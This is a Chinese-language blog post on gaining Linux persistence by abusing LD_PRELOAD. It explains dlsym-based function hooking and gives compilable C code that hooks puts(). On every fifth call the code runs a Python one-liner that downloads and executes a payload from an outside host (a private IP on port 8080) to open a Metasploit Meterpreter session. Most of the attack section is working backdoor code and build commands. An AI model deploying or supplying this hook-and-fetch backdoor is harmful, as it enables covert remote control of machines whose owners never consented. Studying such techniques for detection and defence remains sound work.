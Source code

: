 ```yaml
---
title: Linux权限维持之LD_PRELOAD
layout: post
date: '2020-01-01'
categories: C++/C
permalink: "/archivers/2020-01-01/1"
description: 通过LD_PRELOAD环境变量，能够轻易的加载一个动态链接库。通过这个动态库劫持系统API函数，每次调用都会执行植入的代码。
---
```


## LD_PRELOAD 

Linux操作系统的动态链接库在加载过程中，动态链接器会先读取LD_PRELOAD环境变量和默认配置文件`/etc/ld.so.preload`，并将读取到的动态链接库文件进行预加载，即使程序不依赖这些动态链接库，LD\_PRELOAD环境变量和`/etc/ld.so.preload`配置文件中指定的动态链接库依然会被装载,因为它们的优先级比LD_LIBRARY_PATH环境变量所定义的链接库查找路径的文件优先级要高，所以能够提前于用户调用的动态库载入。

通过LD_PRELOAD环境变量，能够轻易的加载一个动态链接库。通过这个动态库劫持系统API函数，每次调用都会执行植入的代码。

## dlsym

**dlsym是一个计算机函数，功能是根据动态链接库操作句柄与符号，返回符号对应的地址，不但可以获取函数地址，也可以获取变量地址。**

dlsym定义在Linux操作系统中的dlfcn.h中，函数原型如下：


> void * dlsym(void * handle,const char * symbol)

* handle：由dlopen打开动态链接库后返回的指针；
* symbol：要求获取的函数或全局变量的名称。

返回值：void * 指向函数的地址，供调用使用。

劫持示例代码：

```c
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>

int puts(const char *message) {
  int (*new_puts)(const char *message);
  int result;
  new_puts = dlsym(RTLD_NEXT, "puts");
// do some thing …
// 这里是puts调用之前
  result = new_puts(message);
  // 这里是puts调用之后
  return result;
}
```

编译命令：

`gcc hook.c -o hook.so -fPIC -shared -ldl -D_GNU_SOURCE`

* -fPIC 选项作用于编译阶段，告诉编译器产生与位置无关代码（Position-Independent Code）；这样一来，产生的代码中就没有绝对地址了，全部使用相对地址，所以代码可以被加载器加载到内存的任意位置，都可以正确的执行。这正是共享库所要求的，共享库被加载时，在内存的位置不是固定的。
* -shared 生成共享库格式
* -ldl 显示方式加载动态库，可能会调用dlopen、dlsym、dlclose、dlerror
* -D_GNU_SOURCE 以GNU规范标准编译

编写好劫持puts函数的代码后，需要先生成一个Metasploit木马，使得在系统调用puts函数之前，都执行一次木马。

![2020-01-03-13-09-24](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/a981d7261f39ee47c93b0e42a8a68a39.png)

`exploit/multi/script/web_delivery` 模块能够直接生成一条Python命令，这能够非常方便的获得Meterpreter。
接下来，将劫持puts函数的代码做一些小改动，在执行puts之前，调用系统函数system来运行python命令，这样每次调用puts都可以获得Meterpreter会话。

![2020-01-03-13-09-40](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/453478b8e6f0c711e8e33e92ff55600e.png)

正常执行的过程：

![2020-01-03-13-09-51](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/00ff5dc344eedf05cecd3480d2396db1.png)

执行whoami后，由于底层会调用puts函数，因此也会执行python命令，Metasploit不出意外的获得了Meterpreter：

![2020-01-03-13-10-01](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/ad5b8eaa7081113775743b6929919ee4.png)

接着，为了防止在短时间内获得多个重复的会话，因此需要优化一下代码，例如以某个文件行数和调用puts函数的次数进行取余，就能够达到执行多少次puts函数获得一次Meterpreter。
优化代码如下：

```c

#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>
#include <sys/stat.h>
#define BUFFER_SIZE 100
#define COMMAND_NUM 5
int check_file_line(char * filename){
	int file_line = 0;
	char buffer[BUFFER_SIZE];
	FILE *fp = NULL;
	fp = fopen(filename,"r");
	if(fp==NULL){
		return file_line;
	}

	while(fgets(buffer,BUFFER_SIZE,fp)!= NULL){
		file_line ++;
	}
	fclose(fp);
	return file_line;
}

void add_file_line(char * filename){
	FILE * fp = NULL;
	fp = fopen(filename,"a+");
	if(fp == NULL){
		return;
	}
	
	fputs("1\n",fp);
	fclose(fp);
}

void call_system(){

  system("python -c \"import sys;u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('http://192.168.170.138:8080/o1ZJy3Wue');exec(r.read());\"");

}

int puts(const char *message) {
  char * filename = "/tmp/err.log";
  int (*new_puts)(const char *message);
  int result;
  int file_lines = 0;
  new_puts = dlsym(RTLD_NEXT, "puts");
  add_file_line(filename);
  file_lines = check_file_line(filename);
  printf("[+]file_line : %d, NUM = %d \n",file_lines, COMMAND_NUM);
  if(file_lines % COMMAND_NUM == 0){
  	call_system();
  }
  result = new_puts(message);
  return result;
}
```

![2020-01-03-13-10-13](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/6923c9d63c7a4b9563bd298f01df9c98.png)

在执行至第零次、五次时，成功返回了会话：


![2020-01-03-13-10-21](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/7462655c88874bbc909aa75c7cb940f2.png)

COMMAND_NUM 可自定义